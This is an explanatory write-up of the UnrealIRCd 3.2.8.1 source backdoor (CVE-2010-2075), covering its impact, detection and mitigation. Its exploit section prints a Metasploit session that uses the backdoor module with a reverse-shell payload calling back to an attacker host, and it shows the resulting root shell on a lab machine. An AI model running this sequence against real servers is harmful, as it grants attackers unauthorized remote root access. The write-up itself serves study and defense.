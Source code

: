 The **UnrealIRCd 3.2.8.1 Backdoor** is associated with **CVE-2010-2075**, a well-known vulnerability that was introduced when the source code of the UnrealIRCd software was compromised. Below is detailed information about this backdoor and its associated CVE.

### **CVE ID**:
- **CVE-2010-2075**

### **Vulnerability Description**:
The **UnrealIRCd 3.2.8.1** source tarball was compromised and contained a backdoor. This backdoor allowed remote attackers to execute arbitrary commands on the affected server with the privileges of the user running the UnrealIRCd process (often root or another privileged account). The malicious code was inserted into the UnrealIRCd source code between November 2009 and June 2010, affecting version 3.2.8.1.

### **Backdoor Behavior**:
The backdoor allowed attackers to connect to the affected server and execute shell commands remotely without authentication. This made it extremely dangerous since it provided complete control over the server to anyone who exploited it.

#### Key Details:
- The backdoor was inserted into the official UnrealIRCd source package hosted on the official servers.
- The affected version was **3.2.8.1**, which was downloaded between **November 2009** and **June 2010**.
- The exploit was activated by sending a specially crafted command to the UnrealIRCd server.
- The backdoor allowed **remote code execution (RCE)**, which gave attackers full control over the server.

### **Impact**:
- **Remote Code Execution**: Attackers could remotely execute arbitrary commands with the privileges of the UnrealIRCd process.
- **Full System Compromise**: If the UnrealIRCd process was running as root, the attackers could fully compromise the system.

### **Exploit Details**:
The backdoor in UnrealIRCd 3.2.8.1 was simple in nature and allowed any connected user to send a specific string of data to the IRC server, causing it to execute arbitrary commands on the host system. This made any server running the affected version of UnrealIRCd vulnerable to remote attacks.

```bash
msfconsole
msf> use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unreal_ircd_3281_backdoor) > show targets
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.0.31
msf exploit(unreal_ircd_3281_backdoor) > set TARGET 0
msf exploit(unreal_ircd_3281_backdoor) > set PAYLOAD cmd/unix/reverse
msf exploit(unreal_ircd_3281_backdoor) > set LHOST 192.168.0.30
msf exploit(unreal_ircd_3281_backdoor) > set LPORT 4444  
msf exploit(unreal_ircd_3281_backdoor) > exploit
sessions -i 2

sessions 2
shell
root@metasploitable:/etc/unreal#
cd /root
root@metasploitable:/root# ls
ls
Desktop  reset_logs.sh  vnc.log
```
### **Affected Versions**:
- **UnrealIRCd 3.2.8.1**

Other versions of UnrealIRCd before and after 3.2.8.1 were not affected because they did not contain the malicious code.

### **Solution**:
The UnrealIRCd development team quickly responded after the discovery of the backdoor by:
- Removing the compromised tarball from their servers.
- Issuing a clean version of UnrealIRCd.
- Advising all users to upgrade to a version newer than 3.2.8.1.

The safest course of action was to immediately upgrade to a newer version, as the developers fixed the issue by removing the backdoor code.

### **How to Detect**:
If you are running UnrealIRCd and want to check whether your server was affected:
1. **Check the version**: If you're using UnrealIRCd 3.2.8.1, your server was compromised.
   ```bash
   /path/to/unrealircd --version
   ```
2. **Check the binary for known backdoor strings**:
   Search for the backdoor in the binary by looking for specific commands known to be associated with the backdoor. For example, you can use the `grep` command to search the binary:
   ```bash
   grep -a "AB;" /path/to/unrealircd
   ```
   If the backdoor is present, this command will return a string associated with the backdoor.

### **Mitigation**:
- **Upgrade UnrealIRCd**: The backdoor was fixed in later versions, so upgrade to a version newer than 3.2.8.1.
- **Reinstall the Operating System**: If your system was compromised, it’s strongly recommended to reinstall the operating system or restore from a known clean backup.
- **Run Security Tools**: Tools like `rkhunter`, `chkrootkit`, and `ClamAV` can be used to scan for malware and other backdoors, but the primary fix is to ensure that the compromised version is no longer in use.

### **References**:
- **CVE Database Entry**: [CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)
- **Original Advisory from UnrealIRCd**: [UnrealIRCd.org](https://forums.unrealircd.org/viewtopic.php?f=1&t=6568) – This provides detailed information about the backdoor and the recommended upgrade steps.
- **Exploit Database**: The backdoor exploit has been documented in the Exploit Database and is known to allow remote code execution without authentication.

### **Summary**:
- **CVE ID**: CVE-2010-2075
- **Description**: Remote code execution vulnerability due to a backdoor in UnrealIRCd 3.2.8.1.
- **Affected Versions**: UnrealIRCd 3.2.8.1
- **Severity**: High (Remote Code Execution)
- **Impact**: Complete system compromise.
- **Solution**: Upgrade to a later version and ensure you do not run version 3.2.8.1.

This vulnerability is particularly dangerous as it allows attackers full control of the system. If you find the compromised version installed on your system, it’s essential to upgrade and assess the damage caused by the potential exploit.
